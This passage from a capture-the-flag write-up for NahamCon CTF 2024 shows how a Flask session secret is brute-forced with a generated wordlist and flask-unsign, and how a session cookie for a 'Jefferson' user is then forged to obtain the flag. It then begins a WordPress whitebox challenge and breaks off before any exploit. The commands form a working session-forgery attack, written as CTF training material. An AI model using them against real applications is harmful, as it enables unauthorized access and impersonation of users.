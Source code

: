 
![Alt text](ctf/Jeopardy/2024/NahamCon%20CTF%202024/_attachments/image-4.png)

output `THE_REYNOLDS_PAMPHLET-179708251645`. We can try this and forge our own cookie and submit to the `/message` endpoint but this will not work. 
```bash
flask-unsign --sign --cookie "{'name': 'Jefferson'}" --secret 'THE_REYNOLDS_PAMPHLET-179708251645'
```
Since we already know parts of the key and the rest are just datetime integers can just brute-force this since we know its year/month is most likely correct. Worst case brute-force each digit which is not that complex as well.


### brute-force flask key
```bash
#!/bin/bash

for i in {0..99999}; do
    echo "THE_REYNOLDS_PAMPHLET-1797082$i"
done > words.txt
```

![Alt text](ctf/Jeopardy/2024/NahamCon%20CTF%202024/_attachments/image-5.png)

```bash
# brute-force flask session cookie
flask-unsign --unsign --cookie < cookie.txt --wordlist words.txt

# forge our own session token
flask-unsign --sign --cookie "{'name': 'Jefferson'}" --secret 'THE_REYNOLDS_PAMPHLET-179708250845'

```
output: `eyJuYW1lIjoiSmVmZmVyc29uIn0.ZlDoZA.S5h0UBS1jk8CX4I9P5jCrVsBDOA` paste to our session cookie and get the flag 

![alt text](ctf/Jeopardy/2024/NahamCon%20CTF%202024/_attachments/image-7.png)


## Secret Info (460 pts)
`#wordpress` `#code-review` 

Under Sponsorship category. This is a Whitebox web challenge involving wordpress.
> Our admin accidentally published some secret _attachments on our site. Unfortunately, somehow we are not able to unpublish the secret image, however, we tried to apply some protection to our site. This should be enough, right?
This is a fully white box challenge, almost no heavy brute force is needed.

We are provided a wordpress source code with docker file. The only thing here that might be related to the challenge is the `test-plugin.php` and the flag.png. 

![Alt text](image-11.png)

When we register through browser, we can't actually activate our account because our the email service is not working and we can't confirm our account and login. There is no way to register through the browser. This is where the **feature** in the `test-plugin.php` will be used. 
